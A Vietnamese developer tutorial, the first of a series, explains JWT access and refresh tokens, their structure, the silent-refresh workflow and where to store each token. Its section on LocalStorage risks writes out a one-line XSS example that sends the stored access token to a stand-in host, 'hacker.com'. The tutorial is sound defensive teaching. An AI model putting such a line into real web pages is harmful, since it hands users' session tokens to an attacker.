

# [Authentication Series - Part 1] Giải mã Access Token & Refresh Token: Tại sao "một chìa" là không đủ?

Trong kỷ nguyên của Microservices, Mobile Apps và Single Page Applications (SPA), cơ chế xác thực (Authentication) đã dịch chuyển mạnh mẽ từ Stateful (Session-based) sang Stateless (Token-based).

Tuy nhiên, khi bắt tay vào triển khai JWT (JSON Web Token), câu hỏi đầu tiên mà hầu hết anh em developer gặp phải không phải là "code thế nào", mà là: **"Tại sao phải dùng đến 2 loại token? Dùng 1 cái Access Token hạn 30 ngày cho tiện có được không?"**

Bài viết này sẽ "mổ xẻ" tường tận bản chất kỹ thuật, cấu tạo và luồng hoạt động của Access Token và Refresh Token để trả lời câu hỏi đó.

--- 

## I. Mở đầu: Cái chết của Session và sự trỗi dậy của Token

Trước đây, với kiến trúc Monolith, chúng ta dùng Session.
1.  **User đăng nhập** -> Server tạo `session_id`, lưu vào bộ nhớ (RAM/File/DB).
2.  Server trả `session_id` về cho trình duyệt (Cookie).
3.  Mỗi request, Server tra cứu trong bộ nhớ để biết "ông này là ai".

**Vấn đề:** Khi hệ thống scale lên nhiều server (Microservices), việc đồng bộ Session trở thành cơn ác mộng. Server A giữ session, nhưng request tiếp theo chạy vào Server B -> User bị đá ra.

**Giải pháp Stateless (Token):** Server không lưu trạng thái đăng nhập. Server cấp cho Client một "thẻ bài" (Token) chứa đầy đủ thông tin. Server chỉ việc kiểm tra **Chữ ký (Signature)** của thẻ bài đó là biết thật hay giả. Dễ scale, không tốn RAM.

**Nhưng vấn đề mới nảy sinh:** Làm sao thu hồi "thẻ bài" đó khi nó bị đánh cắp? Đó là lý do cặp đôi Access/Refresh token ra đời.

--- 

## II. Định nghĩa cơ bản: Bộ đôi hoàn hảo

Chúng ta không dùng 1, mà dùng 2 loại token với vai trò tách biệt hoàn toàn.

### 1. Access Token (Chìa khóa vào cửa)
*   **Vai trò:** Chứng thực quyền truy cập trong từng request gọi API (GET data, POST data...).
*   **Định dạng:** Thường là JWT (JSON Web Token).
*   **Đặc điểm:** Thời gian sống (Lifespan) **RẤT NGẮN** (5 phút - 30 phút).
*   **Chứa:** Thông tin định danh user, quyền hạn.

### 2. Refresh Token (Phiếu gia hạn)
*   **Vai trò:** Chỉ có một nhiệm vụ duy nhất: **Lấy Access Token mới** khi cái cũ hết hạn.
*   **Định dạng:** Có thể là JWT hoặc chuỗi ngẫu nhiên (Opaque String).
*   **Đặc điểm:** Thời gian sống **DÀI** (7 ngày, 30 ngày, hoặc vĩnh viễn).
*   **Lưu trữ:** Được quản lý chặt chẽ trong Database/Redis của Server.

### Bảng so sánh nhanh

| Đặc điểm | Access Token | Refresh Token |
| :--- | :--- | :--- |
| **Mục đích** | Truy cập Resource (API) | Xin cấp lại Access Token |
| **Gửi kèm** | Header của mọi request API | Chỉ gửi tới endpoint `/refresh` |
| **Tuổi thọ** | Ngắn (phút) | Dài (ngày/tuần) |
| **Server Verify** | Stateless (Tính toán chữ ký) | Stateful (Tra cứu Database) |
| **Rủi ro lộ** | Thấp (Hết hạn nhanh) | Cao (Cần bảo vệ cực kỹ) |

---

## III. Giải phẫu Token & Cơ chế Bảo mật (Deep Dive)

Tại sao Server lại tin tưởng Access Token mà không cần tra cứu DB? Cấu tạo của nó có gì đặc biệt?

### 1. Cấu tạo JWT: Header - Payload - Signature
Một Access Token (JWT) gồm 3 phần, ngăn cách bởi dấu chấm: `aaaaa.bbbbb.ccccc`
*   **Header:** Cho biết thuật toán mã hóa (VD: HS256, RS256).
*   **Payload (Quan trọng):** Chứa dữ liệu (Claims) của user.
*   **Signature (Chữ ký):** Là con dấu bảo mật của Server.

### 2. Sự nhầm lẫn tai hại: "Encoded" không phải "Encrypted"
Rất nhiều Developer lầm tưởng thông tin trong JWT là bí mật. **SAI HOÀN TOÀN.**
Access Token chỉ được Base64Url Encoded. Bất kỳ ai (Hacker, Frontend) đều có thể decode và đọc được nội dung bên trong.

**Quy tắc vàng về dữ liệu trong Access Token:**

| Loại thông tin | Trạng thái | Giải thích |
| :--- | :--- | :--- |
| **Bắt buộc** | ✅ OK | `sub` (User ID), `exp` (Hết hạn), `iss` (Người phát hành). |
| **Phân quyền** | ✅ OK | `role` ("admin"), `scope` ("read"). Giúp Server check quyền nhanh. |
| **Nhạy cảm** | ❌ CẤM | password, thẻ tín dụng, email cá nhân. Ai cũng đọc được phần này! |
| **Dữ liệu lớn** | ❌ CẤM | Không nhét cả list bạn bè vào đây làm nặng request. |

### 3. Cấu tạo Refresh Token: Chứa gì bên trong?
Khác với Access Token (cần đọc nhanh), Refresh Token (RT) thường chứa các thông tin phục vụ quản lý:
*   `jti` (JWT ID): Mã định danh duy nhất của token (để đưa vào Blacklist khi cần).
*   `family_id`: (Dùng cho Token Rotation) Định danh "gia phả" token để phát hiện hành vi tái sử dụng của hacker.

### 4. Các tầng bảo mật: Server Verify thế nào?
Server verify Access Token bằng toán học, không phải bằng Database:
*   **Integrity Check:** Server dùng Secret Key tính toán lại chữ ký. Nếu chữ ký tính ra lệch với chữ ký trên token -> Token giả mạo -> Reject (401).
*   **Expiration Check:** Server so sánh thời gian hiện tại với trường `exp`. Quá hạn -> Reject (401).

**Nâng cao độ khó cho Hacker:**
*   **Asymmetric Key (RS256):** Dùng Private Key để ký (chỉ Auth Server giữ), Public Key để verify (các Service con giữ). Lộ Public Key cũng không sao.
*   **Security Stamp (Dynamic Salt):** Cộng thêm chuỗi hash mật khẩu vào Secret Key. Khi user đổi mật khẩu -> Hash thay đổi -> Toàn bộ Token cũ lập tức vô hiệu hóa (dù chưa hết hạn).

---

## IV. Tại sao cần tách biệt? (The "Why")

Quay lại câu hỏi: *"Tại sao không dùng 1 Access Token hạn 30 ngày?"*
Đó là bài toán cân bằng giữa **An toàn (Security)** và **Tiện lợi (UX)**.

*   **Nếu Access Token sống 30 ngày:** Hacker trộm được token (qua XSS/Network) -> Hắn có quyền truy cập 30 ngày. Server Stateless không thể thu hồi token này ngay lập tức. (Rủi ro cực cao).
*   **Nếu Access Token sống 5 phút (Không có Refresh Token):** An toàn, nhưng cứ 5 phút User bị đá ra bắt đăng nhập lại. (Trải nghiệm tồi tệ).

**=> Giải pháp "Bộ đôi":**
*   **Access Token ngắn (5p):** Hacker trộm được cũng chỉ phá được 5 phút.
*   **Refresh Token dài (30 ngày):** Giúp user duy trì đăng nhập mà không cần gõ lại pass.
*   **Kiểm soát:** Vì Refresh Token được lưu và check trong Database, nếu phát hiện bất thường, ta có thể Revoke (Hủy) Refresh Token ngay lập tức -> Kẻ gian không thể xin Access Token mới.

---

## V. Luồng hoạt động chuẩn (The Workflow)

Đây là quy trình chuẩn (OAuth2 / OIDC) mà các hệ thống lớn áp dụng:




1.  **Login:** Client gửi user/pass. Server trả về AT (5 phút) + RT (7 ngày).
2.  **Truy cập:** Client gửi request kèm AT -> Server trả data.
3.  **Hết hạn:** Sau 5 phút, Client gửi AT cũ -> Server trả lỗi 401 Unauthorized.
4.  **Silent Refresh (Gia hạn ngầm):**
    *   Client bắt lỗi 401 (thường dùng Axios Interceptor).
    *   Client gọi API `/refresh-token` kèm RT.
    *   Server check RT trong DB (còn hạn? có bị revoked?).
    *   Nếu OK -> Cấp AT mới.
5.  **Retry:** Client dùng AT mới gọi lại request ban đầu -> Thành công. User không hề hay biết gì.

---

## VI. Chiến lược lưu trữ & Logout

Lưu ở đâu để không bị hack?


Đây là chủ đề gây tranh cãi nhiều nhất, nhưng hiện tại đã có "Chuẩn mực chung" (Best Practice) cho các ứng dụng hiện đại.

### 1. Access Token (AT) - Nên lưu ở đâu?
Mục tiêu của AT là dùng để gọi API lấy dữ liệu.

#### Phương án A: LocalStorage / SessionStorage
*   **Cách làm:** Khi login xong, lưu `localStorage.setItem('access_token', token)`.
*   **Ưu điểm:** Dễ code. F5 (Refresh trang) không bị mất token, user vẫn đăng nhập bình thường.
*   **Nhược điểm (Chí mạng): Nhạy cảm với XSS (Cross-Site Scripting).**
    *   Nếu trang web của bạn dùng một thư viện bên thứ 3 chứa mã độc.
    *   Mã độc chỉ cần chạy 1 dòng: `fetch('hacker.com?data=' + localStorage.getItem('access_token'))`.
    *   **Kết quả:** Hacker có AT của bạn ngay lập tức.
*   **Đánh giá:** ❌ **KHÔNG NÊN DÙNG** cho các dự án quan trọng (Ví, Ngân hàng, Admin).

#### Phương án B: HttpOnly Cookie
*   **Cách làm:** Server set cookie `access_token=...; HttpOnly`.
*   **Ưu điểm:** **Chống XSS tuyệt đối.** Mã JS (dù là của Hacker) không thể đọc được nội dung Cookie này.
*   **Nhược điểm:** **Dính CSRF (Cross-Site Request Forgery).**
    *   Hacker lừa bạn bấm vào link `sexylady.com`. Trang này âm thầm gửi request POST đến `bank.com/transfer`.
    *   Trình duyệt thấy request đến `bank.com` -> Tự động đính kèm Cookie -> Server thấy hợp lệ -> Chuyển tiền.
*   **Khắc phục:** Phải cài thêm Anti-CSRF Token rất phức tạp.
*   **Đánh giá:** ⚠️ **Dùng được nhưng phức tạp.**

#### Phương án C: In-Memory (Biến JavaScript) - ✅ KHUYÊN DÙNG
*   **Cách làm:** Lưu token vào một biến trong code (Redux store, Context, hoặc biến closure).
    ```javascript
    let accessToken = "ey...";
    ```
*   **Ưu điểm:** **An toàn nhất với XSS.**
    *   Hacker rất khó đọc được biến cục bộ trong bộ nhớ nếu không chiếm quyền kiểm soát hoàn toàn trình duyệt.
    *   Hacker không thể "scan" localStorage để lấy hàng loạt token được.
*   **Nhược điểm:** **F5 là mất.** (Vì RAM bị clear).
*   **Cách khắc phục:** Dùng cơ chế **Silent Refresh**.
    *   Vừa F5 xong -> App gửi request `/refresh` (dùng RT) -> Server trả lại AT mới -> App lưu lại vào RAM.
    *   Quá trình này diễn ra < 100ms, user không kịp nhận ra là mình vừa bị "mất" token.

#### Phương án D: Split Token (Chia tách - Kỹ thuật lai)
*   **Cách làm:**
    *   Server tách JWT: `Header+Payload` -> Body JSON (Lưu LocalStorage), `Signature` -> HttpOnly Cookie.
    *   Client gọi API: Ghép `Header+Payload` từ LocalStorage vào Header, Signature tự động đi theo Cookie.
    *   Server ghép lại verify.

*   **Ưu điểm:**
    *   **Chống XSS tốt hơn A:** Hacker lấy được LocalStorage nhưng thiếu Signature (trong Cookie) -> Token vô dụng.
    *   **Tiện lợi UI:** Client đọc được thông tin User từ LocalStorage dễ dàng.

*   **Nhược điểm:**
    *   **Vẫn dính CSRF:** Signature nằm trong Cookie nên vẫn bị tự động gửi -> Cần chống CSRF.
    *   **Phi chuẩn:** Các thư viện JWT chuẩn không hỗ trợ, phải tự code logic ghép chuỗi -> Rủi ro lỗi.
    *   **Privacy:** Thông tin User lộ thiên ở LocalStorage (Hacker đọc được email/role).

#### Phương án E: Full Cookie (Stateless Session)
*   **Cách làm:**
    *   Server trả về **CẢ** AT và RT trong `Set-Cookie` headers với cờ `HttpOnly`.
    *   Frontend không cần lưu gì cả, trình duyệt tự động đính kèm 2 cookie này cho mọi request.

*   **Ưu điểm:**
    *   **Chống XSS Tuyệt đối:** JS của Hacker không thể sờ vào bất kỳ token nào.
    *   **DX (Dev Experience) tốt:** Frontend không cần viết code Interceptor để gắn `Authorization: Bearer...`.

*   **Nhược điểm:**
    *   **Tử huyệt CSRF:** Vì cookie tự động gửi, hacker có thể lừa user bấm vào link lạ để thực hiện hành động mạo danh. **Bắt buộc** phải triển khai cơ chế chống CSRF (như Double Submit Cookie hoặc CSRF Token).
    *   **Frontend "mù" thông tin:** JS không đọc được cookie -> Không thể decode JWT để lấy user_id, role, avatar. Phải viết thêm API `/me` hoặc lưu song song cookie user_info (không httpOnly).
    *   **Khó tích hợp Mobile App:** Xử lý Cookie trên iOS/Android (React Native/Flutter) thường phiền phức hơn nhiều so với Header.

*   **Đánh giá:** ⚠️ Dùng được, nhưng cần đội ngũ Backend cứng tay xử lý CSRF. Thường thấy trong các framework "full-stack" cũ (Laravel/Rails) hoặc Next.js SSR thuần túy.

### 2. Refresh Token (RT) - Nên lưu ở đâu?
Mục tiêu của RT là dùng để lấy lại AT. Nó quan trọng hơn AT gấp 100 lần vì thời hạn nó rất dài.

#### Phương án A: LocalStorage
*   **Đánh giá:** ❌ **TUYỆT ĐỐI KHÔNG.**
    *   Nếu dính XSS, hacker lấy được RT -> Chiếm quyền tài khoản 30 ngày.

#### Phương án B: HttpOnly Cookie - ✅ KHUYÊN DÙNG
*   **Cách làm:** Server trả về RT trong Header `Set-Cookie` với cờ `HttpOnly`, `Secure`, `SameSite=Strict`.
*   **Tại sao an toàn?**
    *   JS không đọc được Cookie (Chống XSS).
    *   Hacker XSS có thể gọi `/refresh` trộm, nhưng AT mới được trả về Browser của nạn nhân, Hacker không đọc được response body (do CORS). Hắn không bao giờ lấy được chuỗi RT gốc về máy hắn.

### 3. TỔNG KẾT: Kiến trúc "Bất Tử" (Production Grade)


| Đặc điểm | Kiến trúc SPA Chuẩn (Khuyên dùng) | Kiến trúc Full Cookie |
| :--- | :--- | :--- |
| **Nơi lưu Access Token** | In-Memory (RAM) | HttpOnly Cookie |
| **Nơi lưu Refresh Token** | HttpOnly Cookie | HttpOnly Cookie |
| **Chống XSS** | Rất tốt (Hacker khó đọc RAM) | Tuyệt đối (JS không đọc được Cookie) |
| **Chống CSRF** | Không cần (Vì AT gửi qua Header) | **BẮT BUỘC** (Rất phức tạp) |
| **Trải nghiệm Dev** | Cần code logic silent refresh | Nhàn (Browser lo hết) |
| **Phù hợp với** | SPA (React, Vue), Mobile App | Web truyền thống, SSR, Dự án nội bộ |

---

## VII. Lời kết

Chúc mừng bạn! Đến đây, hệ thống xác thực của bạn đã đạt chuẩn **90%** so với các ứng dụng thị trường: Nhanh, nhẹ và tiện lợi nhờ sự phối hợp nhịp nhàng giữa Access Token và Refresh Token.

Nhưng... đừng vội mừng. Hãy tưởng tượng kịch bản sau: **Máy tính của User bị nhiễm Malware. Hacker âm thầm copy được chuỗi Refresh Token quý giá.**

*   Hắn không cần User/Pass.
*   Hắn không cần Access Token (vì nó sắp hết hạn).
*   **Hắn dùng Refresh Token đó để đường hoàng xin cấp mới Access Token và sử dụng tài khoản của nạn nhân như chính chủ.**

Lúc này, Refresh Token vốn là tính năng "tiện lợi" bỗng trở thành "giấy phép truy cập vĩnh viễn" cho Hacker. Bạn không thể thu hồi nó ngay lập tức vì không biết ai đang cầm nó: Chủ nhà hay Kẻ trộm?

> *Có cách nào để hệ thống tự động phát hiện kẻ gian ngay khoảnh khắc hắn dùng Token ăn cắp, và kích hoạt cơ chế "tự hủy" để bảo vệ tài khoản không?*

Tất cả sẽ được giải mã trong bài viết tiếp theo với kỹ thuật **Refresh Token Rotation** và **Reuse Detection**.

👉 **Đừng bỏ lỡ [Phần 2]: Refresh Token Rotation - Gài bẫy Hacker và xử lý lỗi Logout oan (Race Condition) [tại đây](https://github.com/ThongVu1996/documents/blob/main/web/jwt_refresh_token/part_2.md)**
